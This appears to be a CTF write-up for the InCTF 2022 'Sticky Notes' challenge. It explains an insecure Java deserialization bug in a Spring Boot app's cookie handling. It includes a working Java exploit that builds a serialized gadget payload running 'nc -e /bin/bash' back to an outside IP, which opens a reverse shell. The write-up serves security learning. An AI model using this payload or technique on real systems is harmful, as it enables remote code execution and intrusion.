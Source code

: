 # Sticky Notes  

**category** : web\
**tag** : java, deserialization, reflection api\
**source** : [source with docker-compose.yml file](https://github.com/Ryn0K/CTF_Writeups/tree/master/inctf-2022-final/web/Sticky-notes/handout/Sticky_notes)

## Analysis : 

we have spring boot application , need to analyse the [.jar](https://github.com/Ryn0K/CTF_Writeups/blob/master/inctf-2022-final/web/Sticky-notes/handout/Sticky_notes/deployment/Sticky_notes.jar) file  at [https://jdec.app/](https://jdec.app/)

![img1](https://i.imgur.com/8cWS0oy.png)

At home.class we have all mappings to endpoints

```java
@GetMapping({"/"})
   public ModelAndView index() {
      ModelAndView modelAndView = new ModelAndView();
      modelAndView.setViewName("index");
      return modelAndView;
}

@GetMapping({"/add_notes"})
   public ModelAndView add_notes() {
      ModelAndView modelAndView = new ModelAndView();
      modelAndView.setViewName("addnote");
    return modelAndView;
}
```

![index](https://i.imgur.com/mciyqlM.png)

we can add notes
![addnotes](https://i.imgur.com/RJfgq5z.png)

```java
@PostMapping({"/add"})
   public String setCookie(HttpServletResponse response, final HttpServletRequest req) throws IOException {
      Sticky_note one = new Sticky_note(req.getParameter("note"), this.i);
      ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
      ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
      objectOutputStream.writeObject(one);
      objectOutputStream.close();
      String cookie_data = Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
      Cookie cookie = new Cookie("notes" + this.i, cookie_data);
      ++this.i;
      response.addCookie(cookie);
      response.sendRedirect("/");
      return "note added";
   }

   @GetMapping({"/render"})
   public String readAllCookies(HttpServletRequest request) throws IOException, ClassNotFoundException, InterruptedException {
      String listString = "";
      Cookie[] cookies = request.getCookies();
      if (cookies != null) {
         new ArrayList();
         List<String> note_string = new ArrayList();
         List<String> values = (List)Arrays.stream(cookies).map((c) -> {
            return c.getValue();
         }).collect(Collectors.toList());

         for(int j = 0; j < values.size(); ++j) {
            if (((String)values.get(j)).indexOf("rO0") != -1) {
               byte[] decodedBytes = Base64.getDecoder().decode((String)values.get(j));
               ByteArrayInputStream ois = new ByteArrayInputStream(decodedBytes);
               ObjectInput in = new ObjectInputStream(ois);
               Sticky_note result = (Sticky_note)in.readObject();
               result.inv();
               note_string.add(result.get_notes());
            }
         }

         String s;
         for(Iterator var11 = note_string.iterator(); var11.hasNext(); listString = listString + s + ";") {
            s = (String)var11.next();
         }
      }

      return listString;
}
```

so notes added to cookies in base64 by **serializing** the Sticky_note class

and `/render` deserializing them using  `readObject()`, so this is vulnerable to deserialization vulnerability.


## finding gadgets

```java
public class Sticky_note implements Serializable {
   private static final long serialVersionUID = 8997955967313857188L;
   private int id;
   private String notes;
   public Eval_util data;

   public Sticky_note(String note, int id) {
      this.notes = note;
      this.id = id;
   }

   public String get_notes() {
      return this.notes;
   }

// this one 
   public int inv() throws IOException, InterruptedException {
      if (this.data != null) {
         this.data.execute();
      }

      return 1;
   }
}
```

`Sticky_note` having function `inv()` which of type `Eval_util` and 

```java
public class Eval_util implements Serializable {
   private static final long serialVersionUID = -8347155815694777921L;
   public String val;

   public int get_val() {
      return this.val.length();
   }

   public Object execute() throws IOException, InterruptedException {
      String[] cmd = new String[]{"/bin/sh", "-c", this.val};
      Runtime r = Runtime.getRuntime();
      r.exec(cmd);
      return null;
   }
}
```

we can execute `command` by chaining serializable payload to change `public String val`

and plus point here after deserializing the cookie in `/render`
it is automatically calling `inv()`.

```java
Sticky_note result = (Sticky_note)in.readObject();
result.inv(); //<<====================
note_string.add(result.get_notes());
```

## Exploitation

exploit [here](https://github.com/Ryn0K/CTF_Writeups/tree/master/inctf-2022-final/web/Sticky-notes/Exploit)

i am using `reflection api` here, so reader should read that first cause i am not going detail overhere.

[exploit.java](https://github.com/Ryn0K/CTF_Writeups/blob/master/inctf-2022-final/web/Sticky-notes/Exploit/exploit.java)

```java
import java.io.*;
import java.util.*;
import java.lang.reflect.*;
import com.example.demo.*;

class Main{
    public static void main(String[] args) throws NoSuchFieldException, SecurityException, IllegalArgumentException, IllegalAccessException, IOException {
        com.example.demo.Eval_util evutil = new com.example.demo.Eval_util(); // object of Eval_util class
        Field val = com.example.demo.Eval_util.class.getDeclaredField("val"); // get field we want to write 
        val.setAccessible(true); // set accessible true
        val.set(evutil,new String("nc -e /bin/bash 117.242.246.138 8882")); // bind object and change value with command

        com.example.demo.Sticky_note stnote = new com.example.demo.Sticky_note("payload executed", 0); // get object of Sticky_note class
        Field data = com.example.demo.Sticky_note.class.getDeclaredField("data"); // get field data which of type Eval_util
        data.setAccessible(true);
        data.set(stnote,evutil); // bind

        // base64 format
        ByteArrayOutputStream objectBOS = new ByteArrayOutputStream();
        ObjectOutputStream out = new ObjectOutputStream(objectBOS);
        out.writeObject(stnote);
        out.close();
        String payload = Base64.getEncoder().encodeToString(objectBOS.toByteArray());
        System.out.println(payload);
    }
}
```

- compile gadget classes first

![classes](https://i.imgur.com/fJ2ihfo.png)

- compile payload(exploit.java) and get payload

![exploit](https://i.imgur.com/288XH1H.png)


- send payload and get shell

![hurrey](https://i.imgur.com/7jw3n0o.png)

- Get flag

![flag](https://i.imgur.com/IwbfSdl.png)
